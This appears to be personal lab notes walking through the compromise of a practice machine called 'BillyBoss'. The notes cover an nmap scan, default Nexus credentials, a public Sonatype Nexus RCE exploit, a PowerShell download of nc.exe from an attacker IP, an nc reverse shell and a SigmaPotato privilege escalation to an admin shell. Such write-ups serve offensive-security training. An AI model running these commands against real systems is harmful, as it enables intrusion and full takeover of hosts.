


# BillyBoss

* nmap
```
PORT      STATE    SERVICE       VERSION
21/tcp    open     ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
80/tcp    open     http          Microsoft IIS httpd 10.0
|_http-cors: HEAD GET POST PUT DELETE TRACE OPTIONS CONNECT PATCH
|_http-title: BaGet
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open     msrpc         Microsoft Windows RPC
139/tcp   open     netbios-ssn   Microsoft Windows netbios-ssn
445/tcp   open     microsoft-ds?
2701/tcp  filtered sms-rcinfo
5040/tcp  open     unknown
6879/tcp  filtered unknown
8081/tcp  open     http          Jetty 9.4.18.v20190429
|_http-title: Nexus Repository Manager
| http-robots.txt: 2 disallowed entries 
|_/repository/ /service/
|_http-server-header: Nexus/3.21.0-05 (OSS)
```

* No ftp, rpc,smb access

* Port 80



* No imp gobuster endpoints.

* Port 8081 


* There is a sign-in page. Default creds admin:admin, admin:admin123 do not work.

* But searching in kali Passwords gives us two results,



* nexus:nexus work.

* Initial Access -> RCE in Sonatype Nexus 3.21.1

* https://www.exploit-db.com/exploits/49385

* First copied nc into the victim machine ( replace in cmd field in the exploit)
```
powershell iwr -uri http://192.168.45.204/nc.exe -outfile nc.exe
```

* Then called for reverse shell
```
'nc.exe 192.168.45.204 8000 -e cmd'
```

* We get shell.

* Priv Esc - SeImpersonate is enabled.
```
./SigmaPotato.exe "C:\Users\nathan\Nexus\nexus-3.21.0-05\nc.exe 192.168.45.204 8000 -e cmd" 
```

* We get admin shell.

